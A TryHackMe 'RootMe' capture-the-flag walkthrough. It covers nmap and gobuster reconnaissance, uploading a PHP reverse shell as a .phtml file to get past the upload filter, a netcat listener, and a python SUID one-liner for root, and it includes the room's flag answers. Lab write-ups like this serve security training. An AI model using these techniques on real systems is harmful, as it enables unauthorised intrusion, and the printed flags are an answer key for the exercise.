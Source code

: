 # **TryHackMe RootMe**
*Walkthrough using Kali Linux by Leonidas Karagkounis*
https://tryhackme.com/room/rrootme

## **Reconnaissance**
Start by using nmap to scan for ports and services
```
nmap -sC -sV <target_ip> 
```
1. **Scan the machine, how many ports are open?**  
```
2
```
2. **What version of Apache is running?** 
```
2.4.29
```
3. **What service is running on port 22?**
```
ssh
```
## **Locating directories using Gobuster**
Running gobuster to find hidden directories
```
gobuster dir --url http://<target_ip> --wordlist ~/Downloads/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 24 -x php,bak,zip,txt

```

4. **What is the hidden directory?**  
```
/panel/

```




### **Getting a shell**
## **Compromise the webserver**

Visit <target_ip>/panel/

We can exploit this by uploading a php reverse shell

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- When we try and upload the file we get an error message. Trying different file types we find out we can upload .phtml files. The technique on how to scan is explained on the Vulnversity write up [here](https://github.com/KaragkounisL/TryHackMe-Writeups/blob/main/Vulnversity.md).

- Make a copy as php.reverse-shell.phtml.

- Set up a netcat listener with the command :  
```
nc -nlvp 9001
```

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage 
```
http://<target_ip>/uploads/php-reverse-shell.phtml
```
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Typing 
```
whoami
```
we get the response www-data. The home directory of this user is the var/www folder.
We navigate that folder using 
``` 
cd /var/www
```
and we type 
```
ls -al
```

There we can find the user.txt and we can see its contents by typing

```
cat user.txt
```

4. **user.txt** 
```
THM{y0u_g0t_a_sh3ll}
```

## **Privilege Escalation**
Start by typing 
```
find / -user root -perm /4000 2>/dev/null
```

1. **Search for files with SUID permission, which file is weird?** 
```
/usr/bin/python
```

### **Getting a root shell**

We can visit GTFOBins and search for the python binary

https://gtfobins.github.io/gtfobins/python/

Under the SUID category we find what we are searching for
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### **Geting the root flag**

Executing the command gives us root access which we can confirm by typing 
```
whoami
```
Navigate into the original folder and then into theroot folder by using 
```
cd ../../
cd /root
``` 
Type 
```
ls -al
``` 
You should see the root.txt flag. Check the content with 
```
cat root.txt
```

2. **root.txt**
```
THM{pr1v1l3g3_3sc4l4t10n}
```
